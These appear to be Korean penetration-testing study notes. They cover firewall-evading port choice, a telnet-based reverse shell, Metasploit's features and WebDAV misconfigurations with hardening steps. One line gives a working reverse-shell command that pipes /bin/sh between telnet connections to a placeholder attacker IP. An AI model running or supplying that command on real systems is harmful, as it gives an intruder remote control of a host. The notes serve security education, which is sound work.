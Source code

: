 ## 포트 선택의 중요성
- 비표준 포트(예: 4444)는 방화벽에 의해 차단될 수 있다.
- 이 경우 80(HTTP), 443(HTTPS), 8080 등 일반적으로 허용되는 포트로 변경하여 우회할 수 있다.

## Netcat의 한계점과 개선 방안
- Netcat은 단일 TCP 연결로 입출력을 처리하므로 세션이 불안정할 수 있다.
- Telnet을 이용한 안정적인 리버스 쉘:
  ```
  sleep 5000 | telnet 공격자_IP 4444 | /bin/sh | telnet 공격자_IP 5555
  ```
  - `sleep` 명령은 세션을 유지하기 위한 보조 역할을 한다.

---

# 메타스플로잇 프레임워크를 활용한 자동화 공격

## 소개
- Metasploit Framework는 보안 취약점 연구와 개발을 위한 오픈 소스 플랫폼이다.
- 다양한 익스플로잇 모듈을 제공하여 자동화된 취약점 탐지와 공격을 수행할 수 있다.

## 주요 기능
1. **탐색**: 대상 시스템의 정보를 수집하고 취약점을 식별한다.
2. **익스플로잇**: 적합한 익스플로잇 모듈을 사용하여 공격을 실행한다.
3. **페이로드**: 공격 후 실행할 코드를 지정한다.
4. **포스트 모듈**: 공격 성공 후 추가적인 작업(예: 권한 상승)을 수행한다.

---

# WebDAV 취약점

## 개요
- WebDAV(Web Distributed Authoring and Versioning)는 HTTP 프로토콜의 확장으로, 웹 콘텐츠를 작성하고 관리하기 위한 기능을 제공한다.
- 잘못된 구성이나 보안 설정 부족으로 인해 취약점이 발생할 수 있다.

## 주요 취약점 및 위험성
1. **익명 쓰기 권한 허용**:
   - 인증 없이 파일 업로드 및 수정이 가능하면 공격자는 웹 쉘 등을 업로드하여 서버를 제어할 수 있다.
2. **과도한 권한 부여**:
   - 불필요한 쓰기, 삭제 권한은 권한 상승이나 데이터 유출로 이어질 수 있다.
3. **디렉토리 인덱싱 활성화**:
   - 서버의 파일 구조가 노출되어 공격에 이용될 수 있다.

## 보안 강화 방안
1. **인증 설정 강화**:
   - WebDAV 접근 시 강력한 인증 메커니즘을 적용한다.
2. **권한 관리**:
   - 최소 권한 원칙에 따라 필요한 권한만 부여한다.
   - 민감한 디렉토리와 파일에 대한 접근을 제한한다.
3. **접근 제어 목록(ACL) 활용**:
   - 사용자별 또는 그룹별로 세분화된 접근 권한을 설정한다.
4. **SSL/TLS 적용**:
   - 데이터 전송 시 암호화를 통해 도청 및 중간자 공격을 방지한다.
5. **사용하지 않는 경우 비활성화**:
   - WebDAV 기능이 필요하지 않다면 비활성화하여 공격 표면을 줄인다.

---